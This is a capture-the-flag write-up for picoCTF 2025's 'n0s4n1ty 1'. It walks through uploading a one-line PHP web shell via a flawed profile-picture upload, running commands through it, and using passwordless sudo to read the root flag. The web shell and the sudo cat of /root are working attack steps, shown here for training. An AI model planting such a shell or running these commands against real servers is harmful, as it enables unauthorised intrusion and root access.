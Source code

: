 # n0s4n1ty 1 — picoCTF2025

**Author:** Prince Niyonshuti N.
**Tags:** Easy · Web Exploitation · browser\_webshell\_solvable

---

## 🧠 Description

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you.
>
> Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.
>
> Additional details will be available after launching your challenge instance.

---

## 🔍 Challenge Overview

We're given a web application that allows users to upload profile pictures. Testing the functionality revealed that the server does not properly validate uploaded file types, making it vulnerable to arbitrary file uploads.

---

## 🧪 Exploitation – Gaining Remote Command Execution

### ✅ Step 1: Create Web Shell Payload

We created a minimal PHP web shell:

```php
<!--?php system($_GET['cmd']); ?-->
```

Saved it as:

```
shell.php
```

### ✅ Step 2: Upload the Payload

Using the file upload form on the website, we successfully uploaded the payload. After testing common upload paths, the shell was accessible at:

```
http://<ip>/uploads/shell.php
```

### ✅ Step 3: Execute Commands Remotely

We confirmed command execution by running:

```
http://<ip>/uploads/shell.php?cmd=whoami
```

Output:

```
www-data
```

---

## 🛠️ Privilege Escalation – Getting the Flag

### 🔍 Step 4: Check Sudo Privileges

We executed:

```
http://<ip>/uploads/shell.php?cmd=sudo -l
```

The output showed:

```
(ALL) NOPASSWD: ALL
```

This means we can run any command as root **without a password**.

### 🏁 Step 5: Capture the Flag

We directly read the flag from `/root` using:

```
http://<ip>/uploads/shell.php?cmd=sudo cat /root/flag.txt
```

---

## 🏁 Flag

```
picoCTF{<REDACTED>}
```

---

## 💡 Takeaways

* Always validate file uploads — never trust file extensions or MIME types alone.
* Upload functionality can be a gateway to **remote code execution** if improperly handled.
* Always check for **sudo permissions** once you gain a foothold — `NOPASSWD: ALL` is an easy root.

---